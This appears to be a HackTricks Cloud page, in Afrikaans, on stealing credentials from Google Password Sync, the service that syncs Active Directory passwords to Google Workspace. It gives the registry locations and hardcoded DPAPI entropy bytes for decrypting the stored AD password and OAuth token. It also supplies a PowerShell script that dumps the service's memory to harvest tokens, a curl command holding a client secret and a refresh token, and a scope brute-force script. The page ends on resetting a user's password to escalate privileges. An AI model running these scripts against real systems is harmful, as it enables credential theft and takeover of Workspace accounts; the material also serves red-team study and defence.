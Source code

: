 # GPS - Google Password Sync

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PR's in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basiese Inligting

Dit is die binêre en diens wat Google bied om **die wagwoorde van die gebruikers tussen die AD** en Workspace **gesinkroniseer te hou**. Elke keer as 'n gebruiker sy wagwoord in die AD verander, word dit na Google gestel.

Dit word geïnstalleer in `C:\Program Files\Google\Password Sync` waar jy die binêre `PasswordSync.exe` kan vind om dit te konfigureer en `password_sync_service.exe` (die diens wat sal voortgaan om te loop).

### GPS - Konfigurasie

Om hierdie binêre (en diens) te konfigureer, is dit nodig om **toegang te gee aan 'n Super Admin hoof in Workspace**:

* Teken in via **OAuth** met Google en dan sal dit **'n token in die register (geënkripteer) stoor**
* Slegs beskikbaar in Domein Beheerders met GUI
* Gee 'n paar **Diensrekening akrediteeringe van GCP** (json-lêer) met regte om **die Workspace gebruikers te bestuur**
* Baie slegte idee aangesien daardie akrediteeringe nooit verval nie en misbruik kan word
* Baie slegte idee om 'n SA toegang oor workspace te gee aangesien die SA in GCP gecompromitteer kan word en dit moontlik sal wees om na Workspace te pivot
* Google vereis dit vir domein beheer sonder GUI
* Hierdie akrediteeringe word ook in die register gestoor

Ten opsigte van AD, is dit moontlik om aan te dui om die huidige **aansoek konteks, anoniem of 'n spesifieke akreditering** te gebruik. As die akreditering opsie gekies word, word die **gebruikersnaam** in 'n lêer in die **skyf** gestoor en die **wagwoord** is **geënkripteer** en in die **register** gestoor.

### GPS - Dumping wagwoord en token van skyf

{% hint style="success" %}
Let daarop dat [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) in staat is om **GPS** te detecteer, inligting oor die konfigurasie te verkry en **selfs die wagwoord en token te dekripteer**.
{% endhint %}

In die lêer **`C:\ProgramData\Google\Google Apps Password Sync\config.xml`** is dit moontlik om 'n deel van die konfigurasie soos die **`baseDN`** van die AD wat geconfigureer is en die **`gebruikersnaam`** wie se akrediteringe gebruik word, te vind.

In die register **`HKLM\Software\Google\Google Apps Password Sync`** is dit moontlik om die **geënkripteerde herlaai token** en die **geënkripteerde wagwoord** vir die AD gebruiker (indien enige) te vind. Boonop, as daar in plaas van 'n token, 'n paar **SA akrediteeringe** gebruik word, is dit ook moontlik om daardie geënkripteerde in daardie register adres te vind. Die **waardes** binne hierdie register is slegs **toeganklik** deur **Administrators**.

Die geënkripteerde **wagwoord** (indien enige) is binne die sleutel **`ADPassword`** en is geënkripteer met behulp van die **`CryptProtectData`** API. Om dit te dekripteer, moet jy dieselfde gebruiker wees as die een wat die wagwoord sinkronisasie geconfigureer het en hierdie **entropy** gebruik wanneer jy die **`CryptUnprotectData`** gebruik: `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

Die geënkripteerde token (indien enige) is binne die sleutel **`AuthToken`** en is geënkripteer met behulp van die **`CryptProtectData`** API. Om dit te dekripteer, moet jy dieselfde gebruiker wees as die een wat die wagwoord sinkronisasie geconfigureer het en hierdie **entropy** gebruik wanneer jy die **`CryptUnprotectData`** gebruik: `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
Boonop, dit is ook geënkodeer met base32hex met die woordeboek **`0123456789abcdefghijklmnopqrstv`**.

Die entropy waardes is gevind deur die hulpmiddel te gebruik. Dit is geconfigureer om die oproepe na **`CryptUnprotectData`** en **`CryptProtectData`** te monitor en toe is die hulpmiddel gebruik om `PasswordSync.exe` te begin en te monitor wat die geconfigureerde wagwoord en auth token aan die begin sal dekripteer en die hulpmiddel sal **die waardes vir die gebruikte entropy** in beide gevalle wys:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

Let daarop dat dit ook moontlik is om die **geëndecrypt** waardes in die invoer of uitvoer van die oproepe na hierdie API's te sien (in geval Winpeas op 'n stadium stop om te werk).

In die geval dat die Password Sync **geconfigureer is met SA akrediteeringe**, sal dit ook in sleutels binne die register **`HKLM\Software\Google\Google Apps Password Sync`** gestoor word.

### GPS - Dumping tokens van geheue

Net soos met GCPW, is dit moontlik om die geheue van die proses van die `PasswordSync.exe` en die `password_sync_service.exe` prosesse te dump en jy sal in staat wees om herlaai en toegang tokens te vind (indien hulle reeds gegenereer is).\
Ek vermoed jy kan ook die AD geconfigureerde akrediteeringe vind.

<details>

<summary>Dump <code>PasswordSync.exe</code> en die <code>password_sync_service.exe</code> prosesse en soek tokens</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - Genereer toegangstokens vanaf hernuwingstokens

Deur die hernuwingstoken te gebruik, is dit moontlik om toegangstokens te genereer met dit en die kliënt-ID en kliëntgeheim wat in die volgende opdrag gespesifiseer is:
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - Scopes

{% hint style="info" %}
Let daarop dat selfs al het jy 'n verversingsteken, dit nie moontlik is om enige omvang vir die toegangsteken aan te vra nie, aangesien jy slegs die **omvangs wat deur die toepassing ondersteun word waar jy die toegangsteken genereer** kan aan vra.

Ook, die verversingsteken is nie geldig in elke toepassing nie.
{% endhint %}

Standaard sal GPS nie toegang hê as die gebruiker tot elke moontlike OAuth omvang nie, so deur die volgende skrip te gebruik, kan ons die omvangs vind wat met die `refresh_token` gebruik kan word om 'n `access_token` te genereer:

<details>

<summary>Bash skrip om omvangs te brute-force</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

En dit is die uitvoer wat ek op die tyd van skryf gekry het:
```
https://www.googleapis.com/auth/admin.directory.user
```
Wat dieselfde is as wat jy kry as jy geen omvang aandui nie.

{% hint style="danger" %}
Met hierdie omvang kan jy **die wagwoord van 'n bestaande gebruiker verander om voorregte te verhoog**.
{% endhint %}

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsieplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
